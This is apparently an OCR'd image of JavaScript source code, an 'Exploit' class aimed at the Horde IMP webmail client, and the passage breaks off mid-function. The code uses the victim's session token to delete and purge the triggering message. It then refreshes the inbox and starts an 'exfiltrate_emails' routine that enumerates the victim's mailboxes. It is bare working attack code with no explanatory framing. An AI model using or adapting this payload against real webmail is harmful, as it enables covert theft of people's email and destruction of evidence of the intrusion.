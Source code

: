     class Exploit {
        constructor() {
            this.basepath = document.location.pathname.substring(0,
    document.location.pathname.indexOf('imp'));
        }

        trigger() {
            this.mailbox = this.get_mailbox();
            this.buid = this.get_buid();
            this.token = this.get_token();
            this.auto_delete()
            .then(() => {
                this.exfiltrate_emails({mailbox: env.mailbox});
            });
        }

        async auto_delete() {
            let params = new URLSearchParams()
            params.append('token', this.token);
            params.append('view', this.mailbox);
            params.append('buid', this.buid);
            return fetch(this.basepath +
    'services/ajax.php/imp/deleteMessages', {
                method: 'POST',
                body: params
            })
            .then(() => {
                let params = new URLSearchParams();
                params.append('token', this.token);
                params.append('view', this.mailbox);
                return fetch(this.basepath +
    'services/ajax.php/imp/purgeDeleted', {
                    method: 'POST',
                    body: params
                })
                .then(() => {
                    if (document.getElementById('checkmaillink') !== null) {
                        document.getElementById('checkmaillink').click();
                    }
                });
            });
        }

        async exfiltrate_emails(args) {
            let mbox_list = '["' + this.get_mailbox() + '"]';
            if (args.mailbox.toUpperCase() != 'INBOX') {
                let params = new URLSearchParams();
                params.append('reload', '1');
                params.append('unsub', '1');
                params.append('token', this.token);
                let mailboxes = await fetch(this.basepath +
    'services/ajax.php/imp/listMailboxes', {
                    method: 'POST',
                    body: params
                })
                .then(response => {
                    return response.text();
                })
                .then(data => {
                    return JSON.parse(data.substring(10, data.length - 2));

